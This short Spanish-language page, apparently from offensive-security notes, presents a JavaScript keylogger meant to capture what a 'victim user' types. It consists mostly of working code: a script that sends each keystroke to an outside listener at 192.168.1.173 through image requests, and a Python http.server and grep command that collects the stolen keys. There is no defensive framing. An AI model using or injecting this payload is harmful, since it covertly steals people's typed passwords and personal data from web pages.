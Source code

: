 # KeyLogger

Script en js para ver que está tecleando el usuario victima

```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.1.173/" + k;
        };
</script>
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt="" width="487"><figcaption></figcaption></figure>

</div>
